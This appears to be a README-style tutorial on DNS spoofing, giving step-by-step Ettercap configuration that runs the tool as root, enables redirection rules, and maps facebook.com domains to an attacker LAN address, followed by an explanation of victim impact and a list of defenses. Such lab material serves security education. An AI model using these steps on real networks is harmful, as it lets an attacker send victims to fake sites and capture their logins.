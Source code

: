 # DNS Spoofing Attack

## What is DNS Spoofing?

DNS Spoofing (also known as DNS cache poisoning) is an attack where a
malicious actor redirects a victim's DNS requests to a fake or
unintended server. This can trick users into visiting fraudulent
websites instead of legitimate ones.

* **DHCP Server IP Address:** 192.168.1.1
* **Attacker IP Address:** 192.168.1.8

## How the Attack Works

1.  * First edit the Ettercap configuration file.

     ```bash
     gedit /etc/ettercap/etter.conf 
     ```

2.  * the UID and GID values at the top to make them say 0.

     ```bash
     ec_uid = 0
     ec_gid = 0 
     ```
  

3. * Now scroll down until you find the heading that says Linux and under that remove both the # 
signs below where it is redir_command_on

4. * Configure another ettercap file called etter.dns
     ```bash
     leafpad /etc/ettercap/etter.dns
     ```
5. * Add the domain names you would like to redirect to your local server
     ```bash
     www.facebook.com A 192.168.1.8
     *.facebook.com A 192.168.1.8
     ```

6. * Now open up ettercap and start the attack.
      ```bash
     ettercap -G
     ```


## What Happens to the Victim

-   The victim attempts to access a legitimate domain (e.g.,
    `facebook.com`).\
-   Instead of being sent to the correct IP, DNS resolves it to the
    attacker's IP.\
-   The victim unknowingly lands on a malicious server or fake website.

------------------------------------------------------------------------

## Defensive Measures

To protect against DNS spoofing attacks:

1.  **Use DNSSEC** -- Ensures authenticity of DNS responses.\
2.  **Enable ARP Inspection / Dynamic ARP Inspection (DAI)** -- Prevents
    ARP poisoning on switches.\
3.  **Deploy IDS/IPS Systems** -- Detects and blocks suspicious DNS and
    ARP traffic.\
4.  **Use Encrypted DNS (DoH or DoT)** -- Protects DNS queries from
    tampering.\
5.  **Monitor DNS Logs** -- Detect anomalies in query patterns and
    unexpected redirects.\
6.  **Keep Systems Patched** -- Regularly update networking and
    DNS-related software.

------------------------------------------------------------------------

## Summary

DNS spoofing can be highly deceptive, redirecting users to malicious
websites even if they type the correct domain. Awareness, monitoring,
and the use of secure DNS mechanisms are critical to preventing such
attacks.
